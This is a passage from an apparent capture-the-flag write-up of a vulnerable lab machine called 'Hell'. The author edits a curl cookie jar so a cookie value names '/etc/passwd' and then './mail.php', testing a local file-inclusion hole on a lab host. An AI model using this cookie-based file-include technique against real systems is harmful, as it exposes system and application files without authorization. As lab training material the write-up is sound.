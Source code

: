 ```bash Hell Intruder
   <TD><H4>Notes</H4></TD>
</TR>
</CENTRE>
<HTML>
<CENTER>
<FONT COLOR = "RED">
<H1>INTRUDER ALERT!</H1>
</FONT>
</CENTER>
</HTML>
</HTML>
```

Notice the familiar **INTRUDER ALERT** message? :) Also remember how this file was called `/1` from the previous enumeration? Yep! File Include time! With us having a cookiejar file called `cookies` available for editing, it was easy to play around with this. The normal cookiejar had:

```bash Hell cookiejar
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  failcount   4
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  intruder 1
```

To test the file include, the first knee jerk reaction was to replace the `1` with `/etc/passwd`. This yielded no results, and immediately I feared failure and assumptions disappointing me. However, just to make sure, I replaced it again with something in the same path as `/1`, like `mail.php`:

```bash Hell file include testing
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  failcount   4
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  intruder ./mail.php

root@kali:~# curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php -c cookies -b cookies

<HTML>
<CENTRE>
<H2> Folders </H2>
<TABLE style="width:700px" align="center">
<TR>
   <TD><A HREF="server.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="mail.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="users.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="personal.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="notes.php"><IMG SRC='folder.png'></A></TD>
</TR>
<TR>
   <TD><H4>Server Status</H4></TD>
   <TD><H4>Mail Status</H4></TD>
   <TD><H4>Auth Users</H4></TD>
   <TD><H4>Personal Folder</H4></TD>
   <TD><H4>Notes</H4></TD>
</TR>
</CENTRE>
<HTML>
```